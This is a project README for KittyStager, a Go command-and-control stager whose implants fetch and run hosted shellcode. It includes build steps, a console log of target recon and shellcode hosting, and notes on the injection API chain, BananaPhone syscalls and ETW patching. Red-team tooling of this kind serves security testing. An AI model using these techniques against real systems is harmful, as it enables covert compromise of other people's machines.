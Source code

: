# KittyStager


![](/img/chat.png)


KittyStager is a simple stage 0 C2. The purpose of this project is to be able to have some stage 0 templates and be 
able to use the with any shellcode. I would not use this project in red team, at least not now.



## Content
- [How it works](#how-it-works)
- [Quick start](#quick-start)
- [Kitten's](#Kitten)
- [Project structure](#project-structure)


## How it works

1. Configure all the settings in the config file
2. Start the server
    1. The server will start
    2. A config file will be created with each kitten
    3. It will configure the sleep time for the kitten
3. Compile the kitten
4. Run the kitten

![](/img/workfow.svg)

## Quick start
How to compile
```
go build -o kittyStager
./kittyStager

cd /kitten/basickitten
go build -o basickitten
./basickitten
```
How to use :
```
~\go\Project_go\GoStager\cmd\kittyStager main ❯ go run .\main.go
                     _
                    / )
                   ( (
     A.-.A  .-""-.  ) )
    / , , \/      \/ /
   =\  t  ;=    /   /
     `--,'  .""|   /
         || |  \\ \
        ((,_|  ((,_\

KittyStager - A simple stager written in Go

[+] Config loaded
[+] Generated conf file for C:\Users\yanng\go\Project_go\GoStager\kitten\basicKitten
[+] Generated conf file for C:\Users\yanng\go\Project_go\GoStager\kitten\bananaKitten
[+] Config file generated
[+] Starting http server
[+] Sleep set to 5s on all targets
[+] Started http server on 127.0.0.1:8080

KittyStager 🐈❯
[+] Request from: 127.0.0.1
[+] User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/102.0
[+] Hostname: TARGET
[+] Username: target
[+] To get more, use the recon 

KittyStager 🐈❯ interact
[*] Targets:
0 - all targets
1 - 127.0.0.1

[*] Please enter the ip of the target
id: 1

KittyStager - 127.0.0.1 🐈❯ shellcode
[*] Please enter the path to the shellcode
Path: ..\..\shellcode\shellcode.bin
[+] Key generated is : TARGETTARGETTARGETTARGETTARGET
[+] Shellcode hosted for 127.0.0.1 
```

## Kitten
The kitten is the stage 0 payload. It will be compiled and run on the target machine. The kitten will then download the shellcode and execute it.
For the moment, they are only two kittens:
### BasicKitten
This is the basic kitten, and it has the minimum to work. No fancy injection method, just a 
`VirtualAlloc` -> `RtlCopyMemory` -> `VirtualProtect` -> `CreateThread` -> `WaitForSingleObject`. Use this as example if you want to develop your own kitten.
### BananaKitten
This is the more advanced kitten. It will use bananaphone, a variant of hell's gate implemented in Go. [https://github.com/C-Sto/BananaPhone](https://github.com/C-Sto/BananaPhone)
It also patches etw. 

## Project structure
### kitten 
This is the folder where all the kittens are stored. Each kitten has its own folder.
### cmd
#### kittyStager
Main file of the project. It will start the server and create the config file for each kitten.
#### config
Used to read and check the config file. The config file is `conf.yml`
#### http
Used to start the server and serve the shellcode.
#### cli
This is the cli to interact with the server.
#### interact
This is the cli to interact with a kitten, select a shellcode or change sleep time. 
#### util
It contains all the util functions used in the project.
#### cryptoUtil
It contains all the util functions used to encrypt and decrypt the shellcode.
#### httpUtil
It contains all the util functions used to interact with the server.
#### malwareUtil
It contains all the functions used only by the kittens
